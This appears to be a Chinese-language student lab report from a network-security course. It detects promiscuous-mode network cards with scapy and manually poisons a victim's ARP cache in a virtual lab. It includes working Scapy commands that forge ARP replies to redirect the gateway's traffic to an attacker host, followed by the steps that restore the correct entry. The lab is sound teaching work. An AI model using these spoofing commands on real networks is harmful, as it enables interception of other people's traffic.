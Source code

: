 # 网络监听

## 网络拓扑：

网关：

172.16.111.1 

08:00:27:bf:d4:86/enp0s9

攻击者主机：

172.16.111.148

08:00:27:e7:9f:15/eth0 

受害者主机:

172.16.111.121

08:00:27:79:8f:43/eth0

- [x] 实验一检测局域网中的异常终端
- [x] 实验二手工单步“毒化”目标主机的 ARP 缓存

## 实验准备

### 安装sacpy

在攻击者主机上提前安装好scapy

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

<img src="img\安装Python3.jpg" alt="安装Python3" style="zoom:67%;" />

<img src="img\pip3.jpg" alt="pip3" style="zoom:67%;" />

## 实验一检测局域网中的异常终端

```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

<img src="img\检查混杂模式.jpg" alt="检查混杂模式" style="zoom:67%;" />

```bash
# 在攻击者主机上开启 scapy
scapy
```

<img src="img\在攻击者主机上开启scapy.jpg" alt="在攻击者主机上开启scapy" style="zoom:67%;" />

```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.121")
```

```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
```

![受害者主机上手动开启网卡混杂模式](img\受害者主机上手动开启网卡混杂模式.jpg)

```bash
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```

![开启混杂模式后结果多出了PROMISC](img\开启混杂模式后结果多出了PROMISC.jpg)

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.121")
```

<img src="img\对比两条命令输出结果的差异.jpg" alt="对比两条命令输出结果的差异" style="zoom:67%;" />

```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

<img src="img\受害者上关闭混杂模式.jpg" alt="受害者上关闭混杂模式" style="zoom:67%;" />

经查阅资料，promiscping 命令会发送 ARP who-has 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，受害者主机才能收到这个数据包。

在受害者主机上开启Wireshark抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功

## 实验二手工单步“毒化”目标主机的 ARP 缓存

**以下代码在攻击者主机上的 `scapy` 交互式终端完成。**

#### 获取当前局域网的网关 MAC 地址

```python
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1 ")
# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```

![构造以及查看ARP请求](img\构造以及查看ARP请求.jpg)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
gw_mac
```

<img src="img\发送广播请求并查看Mac地址.jpg" alt="发送广播请求并查看Mac地址" style="zoom: 67%;" />

#### 伪造网关响应包

```
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1 ", pdst="172.16.111.121", hwdst="08:00:27:e7:9f:15")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```

<img src="img\发送伪造的ARP想赢数据包到受害者主机.jpg" alt="发送伪造的ARP想赢数据包到受害者主机" style="zoom:67%;" />

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```
ip neigh
```

![在受害者主机上查看ARP缓存](img\在受害者主机上查看ARP缓存.jpg)

### 恢复受害者主机的 ARP 缓存记录

```
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1 ",hwsrc="08:00:27:bf:d4:86", pdst="172.16.111.121", hwdst="08:00:27:79:8f:43")
sendp(restorepkt1, count=100, inter=0.2)
```

<img src="img\恢复受害者主机的 ARP 缓存记录.jpg" alt="恢复受害者主机的 ARP 缓存记录" style="zoom: 67%;" />

#### 此时在受害者主机上准备“刷新”网关 ARP 记录。

```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

<img src="img\恢复网关ARP记录.jpg" alt="恢复网关ARP记录" style="zoom:50%;" />

## 问题解决

1.输入pkt = promiscping("172.16.111.121")报错：peimissionerror

<img src="img\question1.jpg" alt="question1" style="zoom: 50%;" />

解决方法：

进入root权限

<img src="img\anwser.jpg" alt="anwser" style="zoom: 50%;" />

## 参考文件

[实验-网络安全](https://c4pr1c3.gitee.io/cuc-ns/chap0x04/exp.html)

[2020-ns-public-LyuLumos](https://github.com/CUCCS/2020-ns-public-LyuLumos/blob/ch0x04/ch0x04/%E7%BD%91%E7%BB%9C%E7%9B%91%E5%90%AC.md)

